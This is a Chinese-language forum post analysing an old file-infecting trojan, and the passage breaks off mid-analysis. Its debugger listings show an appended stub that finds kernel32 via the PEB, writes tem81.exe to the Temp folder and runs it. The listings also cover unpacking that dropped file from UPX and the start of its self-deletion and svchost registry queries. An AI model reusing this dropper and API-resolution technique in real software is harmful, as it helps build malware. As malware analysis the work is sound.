







# 一款老木马的分析

> 原文：[`www.pediy.com/kssd/pediy12/128470.html`](https://www.pediy.com/kssd/pediy12/128470.html)

前几天遇到一个人,他说中毒了，本来想要样本，结果他说没有，只有感染的文件，就发了一个给我，我就用这个被感染的文件来分析一下，样本感染程序之后都做了哪些工作~~~  
  
附件中的 spy 是一个被感染的程序，当我们运行 spy 的时候，其实已经在背后做了很多事，下面我们就来看看它在背后做了些什么工作吧~~~  
  
第一步：  
先用 PEID 查看看吧，如下图所示：  
  
  
很明显，原程序被新增加了一个节，物理地址从 6200 开始，大小为 5E00，相对虚拟地址从 9000 开始，大小为 6000，就这些吧~~增加的代码还是比较多的~~~  
  
第二步：  
OD 载入~~  
00409000 > $  E8 00000000   call    00409005  
程序正好停留在了新增加的代码地址处 409000 处~~，接下来，跟我们一起分析吧~~  
00409000 > $  E8 00000000   call    00409005  
00409005   $  5B            pop     ebx  
00409006   .  81EB 05024000 sub     ebx, 00400205                    ;  前面三行:重定位~~不用多说了吧~~  
  
这三句之后，得到的 ebx = 00008E00,继续~~  
0040900C   .  64:8B3D 30000>mov     edi, fs:\[30\]         ;  PEB    
00409013   .  8B7F 0C       mov     edi, \[edi+C\]         ;  PEB\_LDR\_DATA  
00409016   .  8B7F 1C       mov     edi, \[edi+1C\]        ;  InInitializationOrderModuleList  
00409019   .  8B3F          mov     edi, \[edi\]           ;  next entry  
0040901B   .  8B7F 08       mov     edi, \[edi+8\]         ;  EDI = 7C800000-->Kernel32.dll 基址  
0040901E   .  89BB C2034000 mov     \[ebx+4003C2\], edi    ;  \[004091C2\] = kernel32.dll 基址 7C800000  
00409024   .  8BF7          mov     esi, edi             ;  esi = 7C800000-->Kernel32.dll 基址  
00409026   .  0376 3C       add     esi, \[esi+3C\]        ;  ESI = 7C8000E8-->'PE'  
00409029   .  8B76 78       mov     esi, \[esi+78\]   ;  输出表  
0040902C   .  03F7          add     esi, edi  
0040902E   .  56            push    esi                  ;  kernel32.7C80262C  输出表地址  
0040902F   .  8B6E 18       mov     ebp, \[esi+18\]        ;  EBP = 3B5 输出表函数个数  
00409032   .  8B76 20       mov     esi, \[esi+20\]        ;  ESI = 3528 函数地址  
00409035   .  03F7          add     esi, edi             ;  ESI = 7C803528  
00409037   .  33D2          xor     edx, edx             ;  EDX = 0  
00409039   >  56            push    esi  
0040903A   .  8B3E          mov     edi, \[esi\]  
0040903C   .  03BB C2034000 add     edi, \[ebx+4003C2\]  
00409042   .  8DB3 87034000 lea     esi, \[ebx+400387\]    ;  ESI = 00409187-->GetProcAddress  
00409048   .  B9 0F000000   mov     ecx, 0F              ;  GetProcAddress 函数的长度  
0040904D   .  F3:A6         repe    cmps byte ptr es:\[ed>;  取 kernel32.dll 中的函数逐个与 GetProcAddress 比较  
0040904F   .  75 06         jnz     short 00409057       ;  不相等，就跳转  
00409051   .  5E            pop     esi  
00409052   .  8BD6          mov     edx, esi  
00409054   .  5E            pop     esi  
00409055   .  EB 11         jmp     short 00409068  
00409057   >  5E            pop     esi  
00409058   .  83C6 04       add     esi, 4               ;  kernel32.dll 函数地址+4  
0040905B   .  42            inc     edx                  ;  函数的个数+1  
0040905C   .  3BD5          cmp     edx, ebp             ;  比较函数的个数是否是 kernel32.dll 中函数总数 3B5  
0040905E   .^ 72 D9         jb      short 00409039       ;  如果不是，则跳转  
00409060   .  83EC 04       sub     esp, 4  
00409063   .  E9 1A010000   jmp     00409182  
00409068   >  2B56 20       sub     edx, \[esi+20\]        ;  用得到的 GetProcAddress 的地址减去函数的名称地址 edi = 7C80065C  
0040906B   .  8B83 C2034000 mov     eax, \[ebx+4003C2\]    ;  eax = kernel32.7C800000  
00409071   .  2BD0          sub     edx, eax             ;  edx = 65C  
00409073   .  D1EA          shr     edx, 1               ;  edx = 32E  
00409075   .  0356 24       add     edx, \[esi+24\]        ;  加上 kernel32.dll 中的函数序数 EDX=0000472A  
00409078   .  03D0          add     edx, eax             ;  加上 kernel32.dll 基址得到 7C80472A  
0040907A   .  0FB702        movzx   eax, word ptr \[edx\]  ;  eax = kernel32 中函数序号 197  
0040907D   .  C1E0 02       shl     eax, 2               ;  eax = 65C  
00409080   .  0346 1C       add     eax, \[esi+1C\]        ;  eax = kernel32.dll 函数地址  
00409083   .  0383 C2034000 add     eax, \[ebx+4003C2\]    ;  eax = 7C802CB0  
00409089   .  8B00          mov     eax, \[eax\]           ;  eax = 0000AC28  
0040908B   .  0383 C2034000 add     eax, \[ebx+4003C2\]    ;  eax = 7C80AC28  
00409091   .  8BF8          mov     edi, eax             ;  edi = GetProcAddress 的地址  
00409093   .  8BEC          mov     ebp, esp             ;  ebp=0012FFC4  
00409095   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]    ;  EDX = 7C800000  
0040909B   .  8D83 96034000 lea     eax, \[ebx+400396\]    ;  eax = 00409196--->GetTempPathA  
004090A1   .  50            push    eax  
004090A2   .  52            push    edx  
004090A3   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
004090A5   .  81EC 04010000 sub     esp, 104  
004090AB   .  54            push    esp  
004090AC   .  68 04010000   push    104  
004090B1   .  FFD0          call    eax                  ;  kernel32.GetTempPathA-->C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp  
004090B3   .  8D83 A3034000 lea     eax, \[ebx+4003A3\]    ;  lstrcatA  
004090B9   .  50            push    eax  
004090BA   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]  
004090C0   .  52            push    edx  
004090C1   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
004090C3   .  8D8B AC034000 lea     ecx, \[ebx+4003AC\]    ;  tem81.exe  
004090C9   .  51            push    ecx  
004090CA   .  8BCC          mov     ecx, esp  
004090CC   .  83C1 04       add     ecx, 4  
004090CF   .  51            push    ecx  
004090D0   .  FFD0          call    eax                  ;  kernel32.lstrcatA-->C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp\\tem81.exe  
004090D2   .  8D83 B6034000 lea     eax, \[ebx+4003B6\]    ;  CreateFileA  
004090D8   .  50            push    eax  
004090D9   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]  
004090DF   .  52            push    edx  
004090E0   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
004090E2   .  8BCC          mov     ecx, esp  
004090E4   .  6A 00         push    0  
004090E6   .  68 80000000   push    80  
004090EB   .  6A 02         push    2  
004090ED   .  6A 00         push    0  
004090EF   .  6A 00         push    0  
004090F1   .  68 000000C0   push    C0000000  
004090F6   .  51            push    ecx  
004090F7   .  FFD0          call    eax                  ;  创建文件，用于在临时目录下创建 tem81.exe  
004090F9   .  8BF0          mov     esi, eax  
004090FB   .  8D8B ED034000 lea     ecx, \[ebx+4003ED\]    ;  WriteFile  
00409101   .  51            push    ecx  
00409102   .  51            push    ecx  
00409103   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]  
00409109   .  52            push    edx  
0040910A   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
0040910C   .  59            pop     ecx                  ;  WriteFile  
0040910D   .  6A 00         push    0  
0040910F   .  51            push    ecx  
00409110   .  83C1 0A       add     ecx, 0A  
00409113   .  8B11          mov     edx, \[ecx\]           ;  edx = 5C00  
00409115   .  52            push    edx  
00409116   .  51            push    ecx  
00409117   .  BA 4D5A9000   mov     edx, 905A4D          ;  edx = 905A4D  
0040911C   .  8911          mov     \[ecx\], edx  
0040911E   .  56            push    esi  
0040911F   .  FFD0          call    eax                  ;  在前面创建的 tem81.exe 中写入数据，大小为 5C00  
00409121   .  8D83 D5034000 lea     eax, \[ebx+4003D5\]    ;  CloseHandle  
00409127   .  50            push    eax  
00409128   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]  
0040912E   .  52            push    edx  
0040912F   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
00409131   .  56            push    esi  
00409132   .  FFD0          call    eax                  ;  关闭前面创建的文件的句柄  
00409134   .  8D83 C6034000 lea     eax, \[ebx+4003C6\]    ;  CreateProcessA  
0040913A   .  50            push    eax  
0040913B   .  8B93 C2034000 mov     edx, \[ebx+4003C2\]  
00409141   .  52            push    edx  
00409142   .  FFD7          call    edi                  ;  kernel32.GetProcAddress  
00409144   .  83EC 44       sub     esp, 44  
00409147   .  8BD4          mov     edx, esp  
00409149   .  BE 00000000   mov     esi, 0  
0040914E   .  B9 11000000   mov     ecx, 11  
00409153   >  8932          mov     \[edx\], esi  
00409155   .  83C2 04       add     edx, 4  
00409158   .^ E2 F9         loopd   short 00409153       ;  查找生成的临时文件的路径，将 0012FE94 到 0012FEC0 清零  
0040915A   .  BA 44000000   mov     edx, 44              ;  edx = 44  
0040915F   .  891424        mov     \[esp\], edx           ;  \[0012FF7C\] = 44  
00409162   .  83EC 10       sub     esp, 10  
00409165   .  8BD4          mov     edx, esp             ;  edx = 0012FE6C  
00409167   .  54            push    esp  
00409168   .  83C2 10       add     edx, 10  
0040916B   .  52            push    edx                  ;  edx = 0012FE7C  
0040916C   .  6A 00         push    0  
0040916E   .  6A 00         push    0  
00409170   .  6A 00         push    0  
00409172   .  6A 00         push    0  
00409174   .  6A 00         push    0  
00409176   .  6A 00         push    0  
00409178   .  6A 00         push    0  
0040917A   .  83C2 44       add     edx, 44  
0040917D   .  52            push    edx                  ;  EDX = C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp\\tem81.exe  
0040917E   .  FFD0          call    eax                  ;  这里会调用 CreateProcessA 运行前面生成的那个 tem81.exe  
  
总结：  
(1)上面的代码，就是先找到 kernel32.dll 中的函数 GetProcAddress 的地址  
(找 kernel32.dll 中的 GetProcAddress 函数的地址的方法，很多，这里只是其中一条，这种方法，在病毒中比较常见和我前面分析的那个差不多)  
这里大家可以看论坛上叫 charme 写的几篇文章，上面好像有一篇专门介绍了 kernel32 基址得到的方法，还有一个讲 asm 系列的文章  
地址：http://bbs.pediy.com/showthread.php?t=105162  
(2)用找到的 GetProcAddress，找到 GetTempPathA,lstrcatA,CreateFileA,WriteFileA,CloseHandle,CreateProcessA 等函数的地址，然后调用  
  
CreateFileA+WriteFileA+CloseHandle 在临时目录下创建一个程序 tem81.exe，最后调用 CreateProcessA 运行，刚才创建的文件，我在第一次试过，当运行这个程序之  
  
后，程序会自动删除掉，而且我们也不知道程序做了哪些工作？  
这里我们就不运行 0040917E 处的 call eax，直接将临时目录下的 tem81.exe 拷贝出来，来单独分析，它做了哪些工作，嘿嘿~~  
  
我们来看看，这条代码执行完之后，会有如下代码：  
00409180   .  8BE5          mov     esp, ebp  
00409182   >- E9 0D9BFFFF   jmp     00402C94  ---->注意，这里程序跳到了原程序的地方  
  
前面我们已经得到，病毒会在原程序中新建一个节，然后写入 5E00 的数据到里在，这里我们已经在 tem81.exe 中写入了 5C00 的数据，在加上前面运行到了 0040917E-  
  
00409000=17E 再加上后面申明的一些常量数据，我们可以得知，原来病毒增加的数据就这些了~~增加的代码的作用：  
(1)在临时目录下创建一个文件 tem81.exe，然后通过调用 CreateProcessA 来运行它  
(2)跳到原程序中，让原程序继续执行~~  
看来增加的代码倒没有什么特殊的，只要的问题就出在它在临时目录下生成的文件 tem81.exe  
  
所以我们就只分析到 0040917E 处就不要在单步运行了，我们退出 OD，来慢慢分析它释放出来的 tem81.exe 做了哪些“不可告人的”事情吧，要--勿勿运行，偷偷删除~~  
  
嘿嘿  
  
先告一段落........  
\-----------------------------------------------------------------------------------------------------------------------------  
接着前面继续吧~~这里我们来重点分析一下 tem81.exe 都做了哪些事情~~~  
  
第一步：  
用 PEID 查看程序，如图所示：  
  
可以看出，主程序可能用 UPX 加的壳，而且是高版本的 UPX  
  
第二步：  
OD 载入~~程序停留在如下地址：  
0040B080 > $  60            pushad  
0040B081   .  BE 00604000   mov     esi, 00406000  
0040B086   .  8DBE 00B0FFFF lea     edi, \[esi+FFFFB000\]  
0040B08C   .  57            push    edi  
0040B08D   .  EB 0B         jmp     short 0040B09A  
  
嘿嘿，很像 UPX 的壳~~  
  
大家可以用单步跟踪法来跟踪程序(注意在跳过回跳的时候，一定要找到正确的位置，不然很容易跑飞)，可以很快达到 OEP，这里我们不用单步跟踪了，直接用 ESP 定律了~~  
  
ESP 定律，程序断在这里：  
0040B1F6   .  8D4424 80     lea     eax, \[esp-80\]  
0040B1FA   >  6A 00         push    0  
0040B1FC   .  39C4          cmp     esp, eax  
0040B1FE   .^ 75 FA         jnz     short 0040B1FA  
0040B200   .  83EC 80       sub     esp, -80  
0040B203   .- E9 F85DFFFF   jmp     00401000  
  
然后单步，即可以到达 OEP 了~~  
00401000    55              push    ebp  
00401001    8BEC            mov     ebp, esp  
00401003    81EC 900D0000   sub     esp, 0D90  
00401009    FF15 DC204000   call    \[4020DC\]                         ; user32.GetInputState  
0040100F    6A 00           push    0  
00401011    6A 00           push    0  
00401013    6A 00           push    0  
  
脱壳这里我就不讲了，我直接用 LordPE+ImportREC 搞定算了~~脱出来的程序命名为:Cracker.exe  
  
可是当我这样脱之后，才发现并没有完全脱壳~~这里我就不再分析这个为什么没脱完全，因为我们的重点不是在脱壳上，如果需要，我再来分析一下，我们上面为什么没有脱壳完全~~  
  
  
下面我借用一下看雪网站上的一个工具来脱 UPX 吧~~这样脱的比较完整，因为这是一个经过修改的 UPX 壳，所以要 Fix 一下，因为别人是专业的 UPX 脱壳工具嘛，嘿嘿~~  
upxfix  
  
先打开 upxfix，然后选择 tem81.exe,如图所示：  
  
然后选下面的任点一种，点 Fix 出现如下图所示：  
  
  
然后将已经 Fix 的 tem81Fix.exe 与 upx 放到同一目录下，在 cmd 中找到该目录，输入如下指令：  
upx tem81Fix.exe --u  
将出现如下图所示的：  
  
我将脱壳完成的程序命名为:Crack.exe，然后我们用 PE 查看其区段，发现其已完全解压，这个程序可能是用 Win32 汇编写的，嘿嘿~~~  
  
  
下面就来重点看看这个 Crack.exe 程序吧~~  
  
第二步：  
OD 载入~~程序停留在了如下地址处：  
(这里大家可以发现，这时 OD 里没有那些未知的汇编指令，说明程序已解压完毕了~~)  
00401000 > $  55            push    ebp  
00401001   .  8BEC          mov     ebp, esp  
00401003   .  81EC 900D0000 sub     esp, 0D90  
00401009   .  FF15 DC204000 call    \[<&USER32.GetInputState>\]   ; \[GetInputState  
0040100F   .  6A 00         push    0                           ; /lParam = 0  
00401011   .  6A 00         push    0                           ; |wParam = 0  
00401013   .  6A 00         push    0                           ; |Message = WM\_NULL  
00401015   .  FF15 80204000 call    \[<&KERNEL32.GetCurrentThrea>; |\[GetCurrentThreadId  
0040101B   .  50            push    eax                         ; |ThreadId  
0040101C   .  FF15 E4204000 call    \[<&USER32.PostThreadMessage>; \\PostThreadMessageA  
00401022   .  6A 00         push    0                           ; /MsgFilterMax = 0  
00401024   .  6A 00         push    0                           ; |MsgFilterMin = 0  
00401026   .  6A 00         push    0                           ; |hWnd = NULL  
00401028   .  8D85 3CFEFFFF lea     eax, \[ebp-1C4\]              ; |  
0040102E   .  50            push    eax                         ; |pMsg  
0040102F   .  FF15 E8204000 call    \[<&USER32.GetMessageA>\]     ; \\GetMessageA  
00401035   .  68 04010000   push    104                         ; /n = 104 (260.)  
0040103A   .  6A 00         push    0                           ; |c = 00  
0040103C   .  8D85 58FEFFFF lea     eax, \[ebp-1A8\]              ; |  
00401042   .  50            push    eax                         ; |s = 0012FE18  
00401043   .  E8 4C0C0000   call    <jmp.&MSVCRT.memset>        ; \\memset  
  
上面的代码，注释的很详细，我就不多说了，最后一句是分配了一个空间，并清零~~  
地址从 0012FE18 开始，大小为 104  
00401048   .  83C4 0C       add     esp, 0C  
0040104B   .  8D85 58FEFFFF lea     eax, \[ebp-1A8\]              ;  0012FE18  
00401051   .  50            push    eax  
00401052   .  E8 A8060000   call    004016FF  
上面将刚才分配的空间首地址做为参数，然后调用 004016FF，我们就来看看 004016FF 在做什么~~  
004016FF   $  55            push    ebp  
00401700   .  8BEC          mov     ebp, esp  
00401702   .  83EC 18       sub     esp, 18  
00401705   .  8365 FC 00    and     dword ptr \[ebp-4\], 0          ;  \[0012F220\] = 0  
00401709   .  FF15 44204000 call    \[<&KERNEL32.GetCommandLineA>\] ; \[GetCommandLineA  
0040170F   .  8945 E8       mov     \[ebp-18\], eax                 ;  eax = C:\\Documents and Settings\\Administrator\\桌面\\Crack.exe  
00401712   .  6A 20         push    20                            ; /c = 20  (' ')  
00401714   .  FF75 E8       push    dword ptr \[ebp-18\]            ; |s  
00401717   .  FF15 BC204000 call    \[<&MSVCRT.strrchr>\]           ; \\strrchr  
0040171D   .  59            pop     ecx                           ;  \[0012F204\] = C:\\Documents and Settings\\Administ  
0040171E   .  59            pop     ecx                           ;  ecx = 20  
0040171F   .  8945 F8       mov     \[ebp-8\], eax                  ;  \[0012F21C\] = eax = 001523A1  
00401722   .  837D F8 00    cmp     dword ptr \[ebp-8\], 0  
00401726   .  74 54         je      short 0040177C                ;  等于零就跳转  
00401728   .  8B45 F8       mov     eax, \[ebp-8\]  
0040172B   .  40            inc     eax                           ;  eax = 001523A2  
0040172C   .  8945 F8       mov     \[ebp-8\], eax                  ;  \[0012F21C\] = 001523A2  
0040172F   .  FF75 F8       push    dword ptr \[ebp-8\]             ; /String = "Settings\\Administrator\\桌面\\Crack.exe"  
00401732   .  FF15 9C204000 call    \[<&KERNEL32.lstrlenA>\]        ; \\lstrlenA  
00401738   .  8945 F0       mov     \[ebp-10\], eax                 ;  \[0012F214\]= 00000026  
0040173B   .  837D F0 01    cmp     dword ptr \[ebp-10\], 1         ;  长度 26 与 1 进行比较  
0040173F   .  7E 0B         jle     short 0040174C                ;  小于等于则跳转  
00401741   .  837D F0 07    cmp     dword ptr \[ebp-10\], 7         ;  长度 26 与 7 进行比较  
00401745   .  7D 05         jge     short 0040174C                ;  大于等于则跳转  
00401747   .  E8 1CFFFFFF   call    00401668                      ;  如果小于 7，则执行  
0040174C   >  837D F0 06    cmp     dword ptr \[ebp-10\], 6         ;  长度 26 与 6 进行比较  
00401750   .  7E 2A         jle     short 0040177C                ;  小于等于则跳转  
00401752   .  C745 FC 01000>mov     dword ptr \[ebp-4\], 1          ;  \[0012F220\] = 0  
00401759   .  FF75 F8       push    dword ptr \[ebp-8\]             ; /String2 = "Settings\\Administrator\\桌面\\Crack.exe"  
0040175C   .  FF75 08       push    dword ptr \[ebp+8\]             ; |String1 = 0012FE18  
0040175F   .  FF15 94204000 call    \[<&KERNEL32.lstrcpyA>\]        ; \\lstrcpyA  
00401765   .  68 80000000   push    80                            ; /FileAttributes = NORMAL  
0040176A   .  FF75 08       push    dword ptr \[ebp+8\]             ; |FileName = "Settings\\Administrator\\桌面\\Crack.exe"  
0040176D   .  FF15 6C204000 call    \[<&KERNEL32.SetFileAttributes>; \\SetFileAttributesA  
00401773   .  FF75 08       push    dword ptr \[ebp+8\]             ; /FileName = "Settings\\Administrator\\桌面\\Crack.exe"  
00401776   .  FF15 90204000 call    \[<&KERNEL32.DeleteFileA>\]     ; \\DeleteFileA  
0040177C   >  8365 F4 00    and     dword ptr \[ebp-C\], 0  
00401780   .  68 E0224000   push    004022E0                      ; /EventName = "4F9E860C-9BE9-474b-8FD1-F0EEDB20C77B"  
00401785   .  6A 00         push    0                             ; |InitiallySignaled = FALSE  
00401787   .  6A 01         push    1                             ; |ManualReset = TRUE  
00401789   .  6A 00         push    0                             ; |pSecurity = NULL  
0040178B   .  FF15 50204000 call    \[<&KERNEL32.CreateEventA>\]    ; \\CreateEventA----------->创建一个事件对象  
00401791   .  8945 F4       mov     \[ebp-C\], eax                  ;  \[0012F218\] = 58  
00401794   .  837D F4 00    cmp     dword ptr \[ebp-C\], 0          ;  比较是否为 0  
00401798   .  74 0D         je      short 004017A7  
0040179A   .  FF15 60204000 call    \[<&KERNEL32.GetLastError>\]    ; \[GetLastError  
004017A0   .  3D B7000000   cmp     eax, 0B7                      ;  eax = 00000000 与 0B7 进行比较  
004017A5   .  75 7A         jnz     short 00401821  
  
然后上面那句又跳到了如下地址处：  
00401821   > \\FF75 F4       push    dword ptr \[ebp-C\]             ; /hObject  
00401824   .  FF15 88204000 call    \[<&KERNEL32.CloseHandle>\]     ; \\CloseHandle  
0040182A   .  8B45 FC       mov     eax, \[ebp-4\]                  ;  eax = 1  
0040182D   >  C9            leave  
0040182E   .  C2 0400       retn    4  
  
很明显上面的那段代码与程序存放的路径有关~~因为我将程序放在了桌面，所以得到上面的结果，可以知道将程序放在不同的位置，会有不同的效果~~  
  
这里我们要就注意了，原样本程序会把名叫 tem81.exe 的程序放到临时目录下，然后运行 CreateProcess 运行这个释放的文件，我们可以将 Crack.exe 放到临时目录下，然后改名为 tem81.exe 程序，然后在用 OD 调试~~（不然会得到“那种”效果）  
  
重新 OD 载入~~  
00401700   .  8BEC          mov     ebp, esp  
00401702   .  83EC 18       sub     esp, 18  
00401705   .  8365 FC 00    and     dword ptr \[ebp-4\], 0  
00401709   .  FF15 44204000 call    \[<&KERNEL32.GetCommandLineA>\]    ; \[GetCommandLineA  
0040170F   .  8945 E8       mov     \[ebp-18\], eax                    ;  \[00152380\] = "C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp\\tem81.exe"  
00401712   .  6A 20         push    20                               ; /c = 20  (' ')  
00401714   .  FF75 E8       push    dword ptr \[ebp-18\]               ; |s = ""C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp\\tem81.exe""  
00401717   .  FF15 BC204000 call    \[<&MSVCRT.strrchr>\]              ; \\strrchr  
0040171D   .  59            pop     ecx                              ;  00152380  
0040171E   .  59            pop     ecx                              ;  ecx = 20  
0040171F   .  8945 F8       mov     \[ebp-8\], eax                     ;  \[0012F21C\] = 00000000  
00401722   .  837D F8 00    cmp     dword ptr \[ebp-8\], 0             ;  比较是否找到空字符  
00401726   .  74 54         je      short 0040177C                   ;  未找到，则跳  
跳到如下地址：  
0040177C   > \\8365 F4 00    and     dword ptr \[ebp-C\], 0  
00401780   .  68 E0224000   push    004022E0                         ; /EventName = "4F9E860C-9BE9-474b-8FD1-F0EEDB20C77B"  
00401785   .  6A 00         push    0                                ; |InitiallySignaled = FALSE  
00401787   .  6A 01         push    1                                ; |ManualReset = TRUE  
00401789   .  6A 00         push    0                                ; |pSecurity = NULL  
0040178B   .  FF15 50204000 call    \[<&KERNEL32.CreateEventA>\]       ; \\CreateEventA  创建一个事件对象  
00401791   .  8945 F4       mov     \[ebp-C\], eax                     ;  \[0012F218\] = 0000058  
00401794   .  837D F4 00    cmp     dword ptr \[ebp-C\], 0             ;  创建是否成功  
00401798   .  74 0D         je      short 004017A7                   ;  不成功，则跳，成功，则不跳  
0040179A   .  FF15 60204000 call    \[<&KERNEL32.GetLastError>\]       ; \[GetLastError  
004017A0   .  3D B7000000   cmp     eax, 0B7                         ;  eax = 00000000 与 0B7 比较  
004017A5   .  75 7A         jnz     short 00401821                   ;  不相等，则跳  
跳到如下地址：  
00401821   > \\FF75 F4       push    dword ptr \[ebp-C\]                ; /hObject  
00401824   .  FF15 88204000 call    \[<&KERNEL32.CloseHandle>\]        ; \\CloseHandle  
0040182A   .  8B45 FC       mov     eax, \[ebp-4\]  
0040182D   >  C9            leave  
0040182E   .  C2 0400       retn    4  
  
然后关闭句柄对象，返回到如下地址~~  
00401057   .  8945 E8       mov     \[ebp-18\], eax                 ;  将上面调用的那个函数的结果传给\[0012FFA8\]  
0040105A   .  68 80000000   push    80                            ; /n = 80 (128.)  
0040105F   .  6A 00         push    0                             ; |c = 00  
00401061   .  8D85 60FFFFFF lea     eax, \[ebp-A0\]                 ; |  
00401067   .  50            push    eax                           ; |s = 0012FF20  
00401068   .  E8 270C0000   call    <jmp.&MSVCRT.memset>          ; \\memset  
0040106D   .  83C4 0C       add     esp, 0C  
00401070   .  68 80000000   push    80                            ; /n = 80 (128.)  
00401075   .  6A 00         push    0                             ; |c = 00  
00401077   .  8D85 B8FDFFFF lea     eax, \[ebp-248\]                ; |  
0040107D   .  50            push    eax                           ; |s = 0012FD78  
0040107E   .  E8 110C0000   call    <jmp.&MSVCRT.memset>          ; \\memset  
  
然后又分配了两个地址空间：  
0012FF20,大小:80  
0012FD78,大小:80  
  
接下来继续，单步：  
00401083   .  83C4 0C       add     esp, 0C  
00401086   .  68 3F000F00   push    0F003F  
0040108B   .  6A 00         push    0  
0040108D   .  6A 00         push    0  
0040108F   .  FF15 24204000 call    \[<&ADVAPI32.OpenSCManagerA>\]  ;  advapi32.OpenSCManagerA  
00401095   .  8945 F8       mov     \[ebp-8\], eax                  ;  \[0012FFB8\] = 00156BE8  
00401098   .  8365 E4 00    and     dword ptr \[ebp-1C\], 0         ;  \[0012FFA4\] = 0  
0040109C   .  8D45 F0       lea     eax, \[ebp-10\]                 ;  eax = 0012FFB0  
0040109F   .  50            push    eax                           ; /pHandle  
004010A0   .  6A 01         push    1                             ; |Access = KEY\_QUERY\_VALUE  
004010A2   .  6A 00         push    0                             ; |Reserved = 0  
004010A4   .  68 88214000   push    00402188                      ; |Subkey = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Svchost"  
004010A9   .  68 02000080   push    80000002                      ; |hKey = HKEY\_LOCAL\_MACHINE  
004010AE   .  FF15 1C204000 call    \[<&ADVAPI32.RegOpenKeyExA>\]   ; \\RegOpenKeyExA  
004010B4   .  68 00040000   push    400                           ; /n = 400 (1024.)  
004010B9   .  6A 00         push    0                             ; |c = 00  
004010BB   .  8D85 B0F9FFFF lea     eax, \[ebp-650\]                ; |  
004010C1   .  50            push    eax                           ; |s = 0012F970  
004010C2   .  E8 CD0B0000   call    <jmp.&MSVCRT.memset>          ; \\memset  
004010C7   .  83C4 0C       add     esp, 0C  
004010CA   .  C745 F4 00040>mov     dword ptr \[ebp-C\], 400        ;  \[0012FFB4\] = 400  
004010D1   .  8D45 F4       lea     eax, \[ebp-C\]                  ;  eax = 0012FFB4  
004010D4   .  50            push    eax                           ; /pBufSize = 0012FFB4  
004010D5   .  8D85 B0F9FFFF lea     eax, \[ebp-650\]                ; |  
004010DB   .  50            push    eax                           ; |Buffer = 0012F970  
004010DC   .  8D45 EC       lea     eax, \[ebp-14\]                 ; |  
004010DF   .  50            push    eax                           ; |pValueType  
004010E0   .  6A 00         push    0                             ; |Reserved = NULL  
004010E2   .  68 C0214000   push    004021C0                      ; |ValueName = "netsvcs"  
004010E7   .  FF75 F0       push    dword ptr \[ebp-10\]            ; |hKey  
004010EA   .  FF15 08204000 call    \[<&ADVAPI32.RegQueryValueExA>>; \\RegQueryValueExA  
004010F0   .  FF75 F0       push    dword ptr \[ebp-10\]            ; /hKey  
004010F3   .  FF15 10204000 call    \[<&ADVAPI32.RegCloseKey>\]     ; \\RegCloseKey  
004010F9   .  837D E8 01    cmp     dword ptr \[ebp-18\], 1            ;  将\[0012FFA8\]中的内容与 1 进行比较  
004010FD   .  75 7D         jnz     short 0040117C                   ;  不等，则跳  
这段代码，就不多解释了，就是打开 SCM 管理器，然后查找注册表中 SvChost 中 netsvcs 服务中的项，程序跳到了如下地址：  
